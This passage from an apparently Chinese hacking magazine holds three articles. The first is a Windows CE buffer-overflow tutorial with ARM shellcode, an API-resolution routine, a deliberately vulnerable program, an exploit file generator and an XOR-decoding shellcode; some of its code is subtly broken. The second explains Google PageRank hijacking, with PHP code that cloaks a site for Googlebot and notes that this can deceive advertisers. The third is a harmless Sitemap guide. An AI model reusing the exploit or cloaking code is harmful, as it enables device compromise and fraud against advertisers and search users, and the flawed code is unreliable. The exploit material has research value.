64KB，这取决于编译选项。高2KB被用来防止栈溢出，我们不能破坏这些内存，否则系统就会冻结。函数中声明的变量分配在栈中，当线程结束后，栈空间会被回收。

## Windows CE进程和线程

Windows CE中对待进程不同于其他Windows操作系统。它限制任何时刻只能运行32个进程。当系统启动的时候，至少4个进程被创建：nk.exe，提供内核服务，常常装载到slot97中；filesys.exe，提供文件系统服务，常常装载到slot2中；device.exe，为系统装载和维护设备驱动，常常装载到slot3中；gwes.exe，提供GUI（图形用户接口）支持，常常被装载到slot4中。其他进程随后启动，如explorer。

Shell是一个我们感兴趣的进程，因为它不仅仅在ROM中。shell.exe是基于命令行的监视器，唯一装载它的方式是通过连接系统到PC机上的调试，文件自己从PC上下载，当使用Platform Builder调试Windows CE时，shell.exe会被装载到slot。

Windows CE下的线程跟其他Windows操作系统上的线程相似。每个进程至少有一个主线程与之关联，即使我们没有显式地创建。进程能够创建任意数目的附加线程，线程的数量仅仅受到可用内存的限制。

每个线程属于进程的一部分，共享相同的内存空间。但是，SetProcPermissions(-1)可以使当前线程访问其他任何进程。每一个线程都有一个id、一个堆栈和一系列寄存器。进程中线程的堆栈大小是通过编译应用程序的链接器设置的。Windows CE中进程和线程的id为所对应进程和线程的句柄。这很有意思，我们编程的时候会发现它非常有用。

进程被装载时，系统会安排下一个可用slot装载需要的动态链接库，随后是程序的栈和默认进程堆，最后执行。

当进程的线程被调度，系统会复制它所在slot到slot0，这并不是实际上的复制操作，仅仅是被映射到slot0。如果线程没有被激活，它会被映射回原来的slot。内核、文件系统和窗口系统都运行在自己的slot中。

进程为它的每个线程分配栈空间，默认大小为……

## Windows CE API搜索技术

我们在溢出前要有一个Windows CE下可运行的ShellCode。Windows CE为Win32兼容机，coredll提供了很多基于Windows CE系统的API（应用程序接口），所以每个进程都需要装载。coredll.dll文件功用与Win32系统的kernel32.dll和ntdll.dll等文件相似。我们需要从coredll.dll中寻找有效API地址，然后用这些API地址去完成我们的ShellCode。基于Win32的系统定位，最原始惯用的方法是通过PEB构造方法来查询kernel32.dll基址，然后通过PE头文件来寻找API地址。

首先，我们必须寻找并定位coredll.dll的基地址。有基于Windows CE开发平台而类似于PEB的结构体吗？回答是肯定的。KDataStruct是一个用于从用户模式通过利用PUserKData的固定地址可以访问的结构体。它保留系统的重要数据，比如模块指针列表、内核栈、SystemAPISets等。KDataStruct定义在nkarm.h中，其原型已随本文附件提供，大家可以参考。

在ARM处理器上，PUserKData的值固定为0xFFFFC800，在其它CPU上为0x00005800，KDataStruct的最后一个成员是ainfo，它从KDataStruct结构体的源地址开始，为一个双字节数组，在索引9（KINX_MODULES）中有个指向模块指针列表的指针，在pkfuncs.h这个头文件中有定义。所以，从0x324到0xFFFFC800是指向模块指针列表地址的指针。

我随文提供了Module结构体的定义，并标注了成员的偏移地址，大家可用于参考理解本文。

Module结构体在kernel.h这个头文件中被定义。模块结构体中的第三个成员是lpszModName，它是模块名字字符串指针，从模块结构体的起始地址0x08开始，模块名为双字节编码字符串。该模块中的第二成员是pMod，是指向下一模块链的地址。所以，我们能通过比较文件名代表的双字节编码字符串来定位coredll模块地址。Module结构体起始地址从0x74开始，它有一个e32成员，是一个e32_lite结构体。我们再看一下pehdr.h头文件中的e32_lite结构体。在这其中，成员e32_vbase告知我们该模块的虚基址，它从Module结构体的0x7c开始。我们还需要注意成员e32_unit[LITE_EXTRA]，它是信息结构数组。LITE_EXTRA在pehdr.h头文件开头处定义到6，只有前6个被NK使用，第一个为导出表的位置。所以Module结构体是从0x8c8开始的地址，它是模块导出表的虚拟相关地址。现在，我们便获得了coredll.dll的虚拟基地址和它的模块导出表虚拟相关地址。我写了如下的小程序，用于列出所有的系统模块。

```cpp
AREA |.text|, CODE, ARM
EXPORT SetProcessorMode

SetProcessorMode PROC
    mov r1, r0
    msr cpsr_c, r0
    mov pc, lr
ENDP

// List.cpp
#include "stdafx.h"
extern "C" void __stdcall SetProcessorMode(DWORD pMode);

int WINAPI WinMain(...) {
    FILE *fp;
    unsigned int *KDataStruct = 0xFFFFC800;
    void *Modules = NULL, *BaseAddress = NULL, *DllName = NULL;

    // switch to user mode
    SetProcessorMode(0x10);

    if ((fp = fopen("\\modules.txt", "w")) == NULL) return 1;

    Modules = *((void **)(KDataStruct + 0x324));
    while (Modules) {
        BaseAddress = *((void **)((unsigned char*)Modules + 0x10));
        DllName = *((void **)((unsigned char*)Modules + 0x8));
        fprintf(fp, "0x%08X %s\n", BaseAddress, DllName);
        Modules = *((void **)((unsigned char*)Modules + 0x4));
    }

    fclose(fp);
    return EXIT_SUCCESS;
}
```

在我的环境中，内核空间模块结构体地址为0x8F453128，大多Pocket PC ROMs建立在允许完全内核模式选项下，因此所有应用程序都运行在内核模式下。CPSR的前5位为0x1f，意味着ARM处理器工作在系统模式。这个值定义在nkarm.h中。

```c
// ARM processor modes
#define USER_MODE    0x10   // 0b10000
#define FIQ_MODE     0x11   // 0b10001
```

```c
#define IRQ_MODE     0x12   // 0b10010
#define SVC_MODE     0x13   // 0b10011
#define ABORT_MODE   0x17   // 0b10111
#define UNDEF_MODE   0x1b   // 0b11011
#define SYSTEM_MODE  0x1f   // 0b11111
```

我用汇编语言写了一个小函数切换处理器模式，因为EVC不支持行内汇编。当我将处理器模式切换到用户模式并没有得到基址和DLLName，而是引起了一个访问非法异常。

我使用这个程序不切换处理器模式得到的coredll.dll的虚拟基址为0x01F60000，但是当我用EVC跟进的时候，发现这是个无效的地址。我想可能Windows CE为了节省内存空间和时间，没有装载动态链接库文件头。

虽然我们没有得到coredll.dll的虚拟基地址和导出表位置的虚拟地址，但通过IMAGE_EXPORT_DIRECTORY结构体比较API名字，我们可以得到API地址。IMAGE_EXPORT_DIRECTORY和其他Win32系统相似，定义在winnt.h中。

```c
// WINCE420\PUBLIC\COMMON\SDK\INC\winnt.h
typedef struct _IMAGE_EXPORT_DIRECTORY {
    DWORD Characteristics;
    DWORD TimeDateStamp;
    WORD  MajorVersion;
    WORD  MinorVersion;
    DWORD Name;
    DWORD Base;
    DWORD NumberOfFunctions;
    DWORD NumberOfNames;
    DWORD AddressOfFunctions;
    DWORD AddressOfNames;
    DWORD AddressOfNameOrdinals;
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;
```

## Windows CE下的ShellCode

在写Windows CE平台下的ShellCode之前，我们必须知道，它使用r0~r3作为API的头四个参数。如果API参数个数多于4个，则使用栈存储其他参数。因此写ShellCode的时候要小心，因为ShellCode就在栈中。下面的test.asm是我们的ShellCode。

```asm
; armasm test.asm
link /MACHINE:ARM /SUBSYSTEM:WINDOWSCE test.obj CODE32
EXPORT WinMainCRTStartup
AREA .text, CODE, ARM

test_start
```

```asm
r11 = base pointer

test_code_start PROC
bl get_export_section
mov r2, #4 ; functions number
bl find_func
sub sp, sp, #0x89, 30 ; weird after buffer overflow
add r0, sp, #8
str r0, [sp]
mov r3, #2

......省略，详见本文附件......

WinMainCRTStartup PROC
b test_code_start
ENDP
END
```

这个 ShellCode 结构分为三部分。第一，它调用 get_export_section 函数获取 coredll.dll 的虚拟基地址和导出表位置的虚拟地址，r0 和 r1 分别存储它们。第二，它调用 find_func 函数通过 IMAGE_EXPORT_DIRECTORY 结构体获取 API 地址，并存储 API 地址到自己的 hash 值地址。最后一部分函数运行我们的 ShellCode，将 `HKLM\SOFTWARE\WIDCOMM\General\btconfig\StackMode` 键值设置为 1，然后使用 KernelIoControl 重启系统。

Windows CE .NET 提供了 BthGetMode 和 BthSetMode 获取/设置蓝牙状态。但是 iPAQ 使用 Widcomm，有自己的 API，因此 BthSetMode 不能够在 iPAQ 上启动蓝牙。不过在 iPAQ 上有其他方法开启蓝牙：将 `HKLM\SOFTWARE\WIDCOMM\General\btconfig\StackMode` 键值设置为 1，然后重启 PDA 即可。

我们再来看 get_export_section 函数的功能。为什么我要注释掉 `ldr r4, =0xffffc800` 指令呢？我们必须清楚，ARM 汇编语言 LDR 伪指令能够装载 32 位常数和地址；`ldr r4, =0xffffc800` 语句在 EVC Debugger 中会成为 `ldr r4, [pc, #0x108]` 指令，而 r4 寄存器依赖于程序，因此 r4 寄存器不能在 ShellCode 中存放 0xffffc800，否则 ShellCode 不会成功。指令 `ldr r5, =0x324` 也相似，在 EVC Debugger 中会成为 `mov r5, #0xC9, 30`，但不影响 ShellCode 的运行。

简单的解决方案是在 ShellCode 中向内存写大常数值，然后使用 ADR 伪指令装载它们的地址，再将它们从内存装载到寄存器中。

为了节省空间，我们可以使用 hash 技术编码 API 名字，每个 API 名字编码成 4 字节。hash 技术来自 LSD 的 Win32 汇编模块，编译方法如下：

```asm
armasm test.asm
link /MACHINE:ARM /SUBSYSTEM:WINDOWSCE test.obj
```

这要求你必须安装 EVC 开发环境，但可以从 EVC Debugger 或者 IDA Pro 获取必要的操作码。

## 系统调用

我们先看看 coredll.dll 中 API 函数的实现过程。

```asm
.text:01F75040 EXPORT PowerOffSystem
.text:01F75040 PowerOffSystem
; CODE XREF: SetSystemPowerState+58
.text:01F75040 STMFD SP!, {R4,R5,LR}
.text:01F75044 LDR R5, =0xFFFFC800
.text:01F75048 LDR R4, =unk_1FC6760
.text:01F7504C LDR R0, [R5] ; UtlsPtr
.text:01F75050 LDR R1, [R0,#-0x14] ; KTHRDINFO
...
.text:01F75090 LDMFD SP!, {R4,R5,PC}
.text:01F75090 ; End of function PowerOffSystem
```

我们可以发现，系统会首先检查 KTHRDINFO，这个值在 MDCreateMainThread2 函数中被初始化。

```c
PRIVATE\WINCEOS\COREOS\NK\KERNEL\ARM\mdthrd.c

if (kmode || bAllKMode) {
    pTh->ctx.Psr = KERNEL_MODE;
    KTHRDINFO(pTh) |= UTLS_INKMODE;
} else {
    pTh->ctx.Psr = USER_MODE;
    KTHRDINFO(pTh) &= ~UTLS_INKMODE;
}
```

如果应用程序运行在内核模式，这个值被设置为 1，否则为 0。Pocket PC 的所有应用程序都运行在内核模式。在我的环境中，R0=0x8004B138，为 SystemAPISets[SH_WIN32] 中 ppfnMethods 指针，随后指令为 `LDRNE R1, [R0, #0x13C]`。接下来我们再看看偏移 0x13C，它对应 Win32Methods 的索引：

```c
const PFNVOID Win32Methods[] = {
    ...(PFNVOID)SC_PowerOffSystem, //79
    ...
};
```

r1 中得到内核中 SC_PowerOffSystem 函数的地址，应用程序在内核运行，`LDREQ R1,=0xF000FEC` 将不起作用。0xF000FEC4 为用户模式系统调用地址，一些 API 会直接使用系统调用，如 SetKMode。

```asm
text:01F756C0 EXPORT SetKMode
text:01F756C0 SetKMode
text:01F756C0 var_4 = -4
text:01F756C0 STR LR, [SP,#var_4]!
text:01F756C4 LDR R1, =0xF000FE50
text:01F756C8 MOV LR, PC
text:01F756CC MOV PC, R1
text:01F756D0 LDMFD SP!, {PC}
```

Windows CE 不使用 ARM 软中断进行系统调用，而是使用其他方法。`0xF0000000 ~ 0xF0010000` 的系统调用地址是无效的，这会引起 prefetch-abort trap。prefetch-abort trap 首先检查无效地址，如在 trap 区域，则使用 ObjectCall 定位系统调用并执行，否则调用 ProcessPrefAbort 处理异常。

计算系统调用地址的公式为：`0xF0010000 - (256*apiset + apinr)*4`。

API 句柄定义在 `PUBLIC\COMMON\SDK\INC\kfuncs.h` 和 `PUBLIC\COMMON\OAK\INC\psyscall.h` 中，而 apins 定义在几个文件中，比如 SH_WIN32 定义在 `PRIVATE\WINCEOS\COREOS\NK\KERNEL\kwin32.h` 中。

我们现在计算 KernelIoControl 的系统调用。apiset 为 0，apinr 为 99，因此系统调用为 `0xF0010000-(256*0+99)*4=0xF000FE74`，然后 ShellCode 通过系统调用实现。它能够很好地工作，并且不需要搜索 API 地址。

```c
#include "stdafx.h"
int shellcode[] = {
  0xE59F0014, // ldr r0, [pc, #20]
  0xE59F4014, // ldr r4, [pc, #20]
  0xE3A01000, // mov r1, #0
  0xE3A02000, // mov r2, #0
  0xE3A03000, // mov r3, #0
  0xE1A0E00F, // mov lr, pc
  0xE1A0F004, // mov pc, r4
  0x01010030, // IOCTL_HAL_REBOOT
  0xF000FE74  // trap address of KernelIoControl
};

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPCTSTR lpCmdLine, int nCmdShow)
```

```c
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPCTSTR lpCmdLine, int nCmdShow)
{
  ((void (*)(void)) &shellcode)();
  return 0;
}
```

## Windows CE缓冲区溢出利用

假设 hello.cpp 为存在问题的程序，其代码如下。

```c
// hello.cpp
#include "stdafx.h"
int hello()
{
  FILE *binFileH;
  char binFile[] = "\\binfile";
  char buf[512];
  if ((binFileH = fopen(binFile, "rb")) == NULL) {
    printf("can't open file %s\n", binFile);
    return 1;
  }

  memset(buf, 0, sizeof(buf));
  fread(buf, sizeof(char), 1024, binFileH);
  printf("%08x %d\n", &buf, strlen(buf));
  getchar();
  fclose(binFileH);
  return 0;
}

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPCTSTR lpCmdLine, int nCmdShow)
{
  hello();
  return 0;
}
```

hello 函数存在缓冲区溢出问题。它从 `binfile` 通过 fread() 读取数据到栈变量 buf，因为读取 1KB 数据复制到 512 字节的 buf 变量，故会引起缓冲区溢出。printf() 和 getchar() 函数用于测试。如果 Windows 目录下没有 console.dll，它们就不会起作用。ARM 汇编语言使用 bl 指令调用函数。

`str lr, [sp, #-4]!` 为 hello 函数的第一条指令。它将 lr 寄存器值存入堆栈，保存着 hello 函数的返回地址。第二条指令为变量预分配栈空间。`ldmia sp!, {pc}` 为 hello 函数的最后一条指令，它将存储在栈中的返回地址装载到 PC 中，之后程序会返回 WinMain 函数。因此，通过覆盖栈中存储的 lr 寄存器的值，我们可以控制 hello 函数的返回地址。给程序分配的变量内存地址对应于程序所装载的 slot，堆栈也是如此。每次启动的时候，进程可能会装载到不同的 slot，因此基地址常常会改变。

另外，slot0 是当前进程 slot 映射过来的，因此它的栈基地址是不变的。以下为 hello 程序的溢出程序：

```c
#include <stdio.h>
#define NOP 0xE1A01001   /* mov r1, r1 */
#define LR  0x0002FC50   /* return address */

int shellcode[] = {
    0xEB000026,
    ...
    0x0000006C,
};

/* prints a long to a string */
char* put_long(char* ptr, long value)
{
    *ptr++ = (char)(value >> 0) & 0xff;
    *ptr++ = (char)(value >> 8) & 0xff;
    *ptr++ = (char)(value >> 16) & 0xff;
    *ptr++ = (char)(value >> 24) & 0xff;
    return ptr;
}

int main()
{
    FILE *binFileH;
    char binFile[] = "binfile";
    char buf[544];
    char *ptr;
    int i;

    if ((binFileH = fopen(binFile, "wb")) == NULL) {
        printf("can't create file %s\n", binFile);
        return 1;
    }

    memset(buf, 0, sizeof(buf)-1);
    ptr = buf;
    for (i = 0; i < 4; i++) {
        ptr = put_long(ptr, NOP);
    }
    memcpy(buf+16, shellcode, sizeof(shellcode));
    put_long(ptr, 16+540, LR);
    fwrite(buf, sizeof(char), 544, binFileH);
    fclose(binFileH);
}
```

我们选择 slot0 的栈地址，指向我们的 ShellCode。它会覆盖栈中存储的返回地址。我们同样可以使用一条虚拟地址空间中的跳转指令代替。这个溢出利用程序生成一个 binfile 文件，会溢出 buf 变量并且覆盖返回地址。当 binfile 复制到 PDA 中，hello 程序执行后，PDA 会重启并打开监控功能，这意味着我们的 ShellCode 得到了执行。另一个构造溢出字符串的方法如下：

```text
pad...pad return address nop...nop shellcode
```

使用这种方法溢出 hello 程序，程序执行后，PDA 会被冻结。我想这可能是栈顶 2KB 保护空间被破坏了。我们在写溢出程序的时候必须注意这个特性。

EVC 在调试程序的时候有一些 Bug：一是在函数返回释放栈的时候，EVC 会写一些数据到栈空间，ShellCode 可能会被修改；二是断点处的指令修改为 0xE6000010。另一个 Bug 更有意思：调试的时候向 text 段写数据不会发生错误，但是执行的时候会产生访问违规异常。

## 关于解码ShellCode

我们上述所讨论的 ShellCode 是概念上的，它包含许多零。它在这个示例程序中可以正确运行，但在某些情况下，一些脆弱的程序可能在缓冲区溢出之前就将特殊字符过滤掉了。例如当使用 strcpy 造成缓冲区溢出时，ShellCode 将被零截断。

用 API 搜索方法来编写 ShellCode，如果不用特殊字符是十分困难的，所以我们考虑解码 ShellCode。解码 ShellCode 将转变特殊字符使其适合的字符，从而使得 ShellCode 更加通用。新的 ARM 处理机（比如 ARM9 和 ARM10）采用了指令缓冲器与数据缓冲器分离的哈佛体系，这一特性将提高处理机的性能，大多数精简指令集处理机都有这一特性。但是自修改代码不容易执行，因为一旦修改之后，缓冲器和处理器会很混乱。我们先来看看下面这段代码：

```c
#include "stdafx.h"
int weird[] =
{
    0xE3A01099, // mov r1, #0x99
    0xE5CF1020, // strb r1, [pc, #0x20]
    0xE5CF1020, // strb r1, [pc, #0x20]
    0xE5CF1020, // strb r1, [pc, #0x20]
    0xE5CF1020, // strb r1, [pc, #0x20]

    0xE1A01001, // mov r1, r1 ; pad
    0xE1A01001,
    0xE1A01001,
    0xE1A01001,
    0xE1A01001,

    0xE3A04001, // mov r4, #0x1
    0xE3A03001, // mov r3, #0x1
    0xE3A02001, // mov r2, #0x1
    0xE3A01001, // mov r1, #0x1
    0xE6000010, // breakpoint
};
```

```c
int WINAPI WinMain(HINSTANCE hInstance,
                   HINSTANCE hPrevInstance,
                   LPTSTR lpCmdLine,
                   int nCmdShow)
{
    ((void (*)(void)) &weird)();
    return 0;
}
```

这里的四条 strb 指令将把下面的四条 mov 指令的立即数修改为 0x99。当直接在 EVC 调试器里运行这段代码时，它将在插入断点处中断。r1~r4 寄存器在 ARM9 核心处理器中得到值 0x99。当我在朋友的内置 Intel XScale 处理器的 PDA 上测试这段代码时，当修改 r1~r4 值为 0x99 后，发生了异常。我想原因可能是 ARM9 有 5 条流水线，而 ARM10 有 6 条流水线。接下来，我将改用另一种方法：

```asm
0xE28F3053, // add r3, pc, #0x53
0xE3A01010, // mov r1, #0x10
0xE7D32001, // ldrb r2, [r3, +r1]
0xE2222088, // eor r2, r2, #0x88
0xE7C32001, // strb r2, [r3, +r1]
0xE2511001, // subs r1, r1, #1
0x1AFFFFFA, // bne ...
...
0x6B28C889, // mov r4, #0x1 (encoded)
0x6B28B889, // mov r3, #0x1
0x6B28A889, // mov r2, #0x1
0x6B289889, // mov r1, #0x1
0xE6000010, // breakpoint
```

四条 mov 指令通过与 0x88 异或来编码，解码器通过一个循环来装载一个编码字节，通过与 0x88 进行异或操作，然后将它恢复为原来的值。在 ARM9 和 ARM10 处理器中，就算你在解码之后填入很多 pad，r1~r4 寄存器也不会得到 0x1。我想这可能是装载指令引起缓冲器的一些问题。

ARM 体系参考手册专门有一个章节介绍怎样处理自修改码。上面说过，当操作系统调用时，缓冲存储器会被更新。来自 0dd 的朋友 Phil 和我分享了他的经验，他说他用这个方法成功地在 ARM 系统上实现（我想他是在 Linux 环境下）。这个方法在 AIX PowerPC 和 Solaris SPARC 上同样成功实现（我已经测试过）。但是在 Windows CE 环境下，软中断使用一种不同的方法实现。armtrap.s 包括 SWIHandler 的执行，这个执行除了 `movs pc, lr` 之外什么都没有，所以它对解码完成后没有任何影响。

由于 PDA 主要工作在内核模式，所以我们有访问系统控制协处理器的特权。ARM 体系参考手册上介绍了存储系统以及如何通过系统控制协处理器来操作缓冲存储器。在浏览手册之后，我尝试在解码之前使指令缓冲不工作：

```asm
mrc p15, 0, r1, c1, c0, 0
bic r1, r1, #0x1000
mcr p15, 0, r1, c1, c0, 0
```

但是当 mcr 执行的时候系统冻结了。然后我尝试解码后使指令缓冲器有效：

```asm
eor r1, r1, r1
mcr p15, 0, r1, c7, c5, 0
```

但是同样没有效果。

## 结论

以上为真实 Windows CE 环境下的缓冲区溢出例子，尽管它不完美，但是将来会得到进一步的发展。随着嵌入式设备和网络的迅猛发展，PDA 和智能手机受到的威胁越来越大。与其他 Windows 系统相比，给 Windows CE 打补丁要困难和危险得多，因为整个 Windows CE 系统是存储在 ROM 中的，ROM 中数据的擦写、ROM 系统镜像文件、PDA 工作模式、手机类型都是不兼容的。

（文中所涉及的程序或代码，已收录入本期光盘杂志相关栏目；也可到黑防官方网站下载，详细地址请看公共论坛置顶帖）

适合读者：网管、网站爱好者

前置知识：无

#### Google PR 劫持以及识别方法

文／Lotos


一年多前曾看到一个国外网站，一共有 10 个页面，页面的 PR 值分别从 1 到 10，当时曾惊为天人，有此深厚功力……

不久前才知什么叫难者不会，会者不难，不过是利用了常用的 301 和 302 转向而已。今天我们就来讨论一下如何进行 Google PR 劫持。这就像一把双刃剑，在正常 SEO 的人群手里，可以知道如何来识别 Google PR 劫持，而对于真正想作弊的人来说，不在这里也肯定能找到其他作弊的方法。和网络安全一样，如果没有人研究溢出、注入等各种安全问题，那么网络就是安全的吗？好了，不说废话了，切入正题。

Google PR 是站长们都在追逐的东西，虽然不一定对排名有多大用，但是那一段工具条上的绿色，却是越长就越让人兴奋。

PageRank 是 Google 衡量网页重要性的工具，测量值范围为从 1 至 10，分别表示某网页的重要性。在 Google 工具栏可以随时获得某网页的 PageRank 值。在这里，我们将透视 PageRank 的一些特殊之处，从而对其进行较为深入的了解，使大家能够更好地使用和了解 Google。尽管总有 Google 的工作人员说 Google PR “Just for fun”，但是毋庸置疑的是，高 PR 使得网站在搜索结果中排在前面的可能性较高。但是 PageRank 近年来在 Google 排名中的重要性却是逐步下降的，甚至有人认为 Google 目前将其代之为 TrustRank。

> 以下 TR 值的高低来作为网页排名的一个重要依据。跟 PR 值原理类似，如果某站点获得了来自高 TR 值站点的链接，也将获得更高的 TR 值。Google TrustRank 应该是以站点而不是页面为单位的。

尽管各种传言都指出 Google PageRank 马上面临退役，甚至好多人认为 Google PR 有可能是 Google 公共关系策略的一部分，也就是把网页级别当作是一个热门话题，让大家去炒、去研究，保持眼球吸引度。但是在今后的很长一段时间里，它仍然会占有相当的比重。

一般搜索引擎在处理 301 和 302 转向的时候，都是把目标 URL 当作实际应该收录的 URL。当然也有特例，不过在大部分情况下是这样处理的。比如我们把 `http://www.example.com/index.php` 做 301 或者 302 转向到 `www.apple.com`，那么收录的就是目标的 URL，也就是 `www.apple.com` 的数据。自己网站的 PR 值当然没有 `www.apple.com` 的 PR 值高，那么 Google 在更新 PR 的时候会把你的网站的 PR 值用目标 URL 的 PR 值代替。这就是 Google PR 劫持的原理。

使用这个原理，最简单实用的作弊方法就是建立一个网站，做 301 或者 302 转向到一个 PR 值高的网站，等 Google PR 值更新之后取消转向，然后就可以 Evil 了，在露馅之前起码能维持一到三个月。如果广告主或者投资人不知道这些，看到你的网站拥有如此高的 PR 值，也许就会投资、买广告位等。但是作弊毕竟不能长久，细水长流才是真谛。

稍微复杂点的方法是通过程序检测到 Google 蜘蛛，对其返回 301 或 302 转向，而对普通访问者和其他蜘蛛则返回正常内容。这样我们看到的是普通网站，只有 Google 会看到转向。但是这样做获得高 PR 值的同时，牺牲的是网站的内容，因为做了 301 和 302 转向，那么搜索引擎并不会收录网站的内容，它收录的是目标 URL 的网站内容。这样通过搜索引擎就不会真正返回自己的网站内容，用户也就无法通过搜索引擎找到你。当然，你也可以只把首页做 301 或 302 转向。

> TrustRank 即 Google 诚信指数，是指网站对于 Google 而言值得信赖的程度。网站 TrustRank 的计算采用人工和机器分析相结合的方式。通过 Google 或其他一些检索机构的专家，可以先确定一批站点的 TR 值，再通过机器的链接结构分析来确定互联网上其他站点 TrustRank 值，然后……

要实现 301 或 302 转向，方法很简单。如果网站是 PHP 架构的，在页面中加入如下代码即可实现。

```php
<?php
if (strstr($_SERVER['HTTP_USER_AGENT'], 'Googlebot')) {
    Header('HTTP/1.1 301');
    Header('Location: http://www.apple.com/');
}
?>
```

如果 Google Bot 访问这个页面，这些代码将会利用 301 或 302 自动转向到 `www.apple.com`。那么 Google Bot 有可能认为这个页面的 PR 是 `www.apple.com` 的一个镜像，所以 PR 值也就是 `www.apple.com` 的了。不过正如上面说的那样，现在 Google Bot 就没法收集自己站点的信息了。如果放在页脚的话，将会使整个站点都没办法让 Google 更新。不过从技巧上来讲，我们可以在骗得 PR 之后停止使用这个脚本。

那么我们该如何识别 Google PR 劫持呢？最准确的方法当然就是看 Google 的网页快照了。如果你看到的网页是一个样，Google 快照看到的却是另外一个网站，这恐怕就非常可疑了。

由于众所周知的原因，国内无法访问 Google 的网页快照，这里就给大家介绍一个不用代理的访问技巧。一般 Google 网页快照类似以下的 URL：

`http://72.14.235.104/search?q=cache:4JmlnVwnHSAJ:www.microsoft.com/china/+microsoft.com&hl=zh-CN&ct=clnk&cd=1`

我们在“？”和“q”之间添加一个“&”，变成如下所示的 URL：

`http://72.14.235.104/search?&q=cache:4JmlnVwnHSAJ:www.microsoft.com/china/+microsoft.com&hl=zh-CN&ct=clnk&cd=1`

之后就可以正常访问了。不过要注意的是，在搜索结果里不要直接点击打开网页快照，打不开之后再替换，那样替换也不能用，因为你的 IP 对 Google 的访问已经被封锁了。在搜索结果页的“网页快照”上，点右键复制 URL 粘贴到地址栏，然后替换，回车，OK，搞定！

虽然上面我给大家介绍了 Google PR 劫持的实现方法，但是我个人并不赞同作弊，毕竟作弊获得的东西不是你自己的，还是老老实实做好基本功，细水长流地好！看着自己的网站慢慢成长起来，一定会沉醉在其中的。

适合读者：网管、网站爱好者

前置知识：无

## 使用 Sitemap 让搜索引擎更快更全面地收录网站

文／Lotos


Sitemaps 协议能够让你告知搜索引擎你网站中可供抓取的网址。Sitemaps 就是列有某个网站所有网址的 XML 文件。此协议可高度扩展，因此可适用于各种大小的网站。它还能够使网站管理员提供有关每个网址的其他信息（上次更新的时间、更改的频率、与网站中其他网址相比它的重要性），以便搜索引擎可以更智能地抓取该网站。

Sitemaps 在用户无法通过可浏览界面访问网站的所有区域时作用尤其明显（通常指用户无法通过追踪链接访问网站的特定页面或区域）。例如，那些只能通过搜索表单才能访问其中某些页面的网站都会从创建 Sitemaps 并将其提交到搜索引擎中获益。

大家要注意，Sitemaps 协议是补充而不是取代搜索引擎用来发现网址的基于抓取的机制。通过向搜索引擎提交一个 Sitemaps（或多个 Sitemaps），可帮助搜索引擎更好地抓取你的网站。虽然使用此协议并不能保证搜索索引中将包含你的网页，但是却可以大大提高搜索引擎收录网站的几率和增加收录的内容量。

从常规上来讲，一个新建立的网站必须在其他已经被搜索引擎收录的网站上有反向连接，才能够被搜索引擎收录，但是 Google Sitemaps 改变了这一状况。通过网站管理员创建的一个涵盖网站内页面 URL 及相应 URL 附加信息（诸如网页最后更新时间、更新频率、优先度等）的 Sitemaps，可以让 Google 的 Robots 更清楚地了解网站提供的内容及内容间的组织关系，以更有效地完成对网站内页面的索引与收录。这也是之前我们将 Google Sitemap 称为 Google“后门”的原因。

当然，我们必须明确的是，向 Google 提供 Sitemaps 并不能保证 Sitemaps 内的网页一定会被收录或索引，这取决于许多其他因素，但至少 Sitemaps 在一定程度上能够加强 Google 对网站的了解。

Sitemap 的作用就好像为网站提供了整站的 RSS，而 Google 就是这些 RSS 的订阅者，只要网站有更新，就会自动通知 Google。这样一来，搜索引擎的收录就由被动的 Pull 变成了主动的 Push，辛苦的 Google 爬虫们终于可以松一口气了。

而且最近传来了一个好消息，Google、微软与 Yahoo 已经达成协议，将使用统一的 Sitemaps 标准。从某种意义上来说，即原来使用范围仅局限 Google 网站管理员工具的 Sitemaps，也将被其他两家搜索引擎接受。目前三大搜索引擎联合建立的标准化机构，官方网站为 `www.sitemaps.org`。也就是说，以后我们建立的 Sitemap 可以直接在除 Google 外的两大搜索引擎中一起使用。

### XML Sitemaps 格式

Sitemaps 协议格式由 XML 标记组成，文件本身应为 UTF-8 编码的。Sitemaps 应以 `<urlset>` 开始标记开始，以 `</urlset>` 结束标记结束。每个网址应包含一个作为父标记的 `<url>` 条目；每一个 `<url>` 父标记要包括一个 `<loc>` 子标记条目。

Google Sitemaps 一共有以下几个关键词：`<urlset>`、`<url>`、`<loc>`、`<lastmod>`、`<changefreq>`、`<priority>`。下面我们一一对其进行解释。

- 1. `<urlset>`，必选，封装此文件并提供当前协议标准作为参考。比如 `<urlset xmlns="http://www.google.com/schemas/sitemap/0.84">`。
- 2. `<url>`，必选，每个网址条目有一个父标记，剩余标记为此标记的子标记。可以类比 C 语言的 `{}`，用于函数开始和结尾，不同的是 `<url>` 与 `</url>` 不能嵌套使用。比如下面的代码。
- 3. `<loc>`，即该页的网址，是必选项。若为首页，应以 `/` 结束。
- 4. `<lastmod>`，描述网页最后修改时间，可选。应采用 W3C Datetime 格式，必要时可仅使用 `YYYY-MM-DD`。
- 5. `<changefreq>`，页面可能发生更改的频率。有效值：`always`、`hourly`、`daily`、`weekly`、`monthly`、`yearly`、`never`。该值是提示信息，并不决定抓取频率。
- 6. `<priority>`，优先级，可选。取值范围 `0.0` 到 `1.0`，默认 `0.5`。该值不会影响搜索结果排名，只用于同一网站内部 URL 的相对优先级提示。

```xml
<url>
  <loc>http://www.example.com/</loc>
  <lastmod>2005-01-01</lastmod>
  <changefreq>monthly</changefreq>
  <priority>0.8</priority>
</url>
```

如果这个页面和你的页面是相同的内容，在搜索结果中，绝对不能保证你就显示在它前面，因为两者之间没有任何相关性。

### 实体转义

和 HTML 一样，如果要使用特殊字符，则需要使用转义字符。Sitemaps 可以使用的转义字符如表 1 所示。

| 字符 | 符号 | 转义码 |
|---|---|---|
| & 符号 | `&` | `&amp;` |
| 单引号 | `'` | `&apos;` |
| 双引号 | `"` | `&quot;` |
| 大于 | `>` | `&gt;` |
| 小于 | `<` | `&lt;` |

表 1

### 使用多个 Sitemaps 索引文件

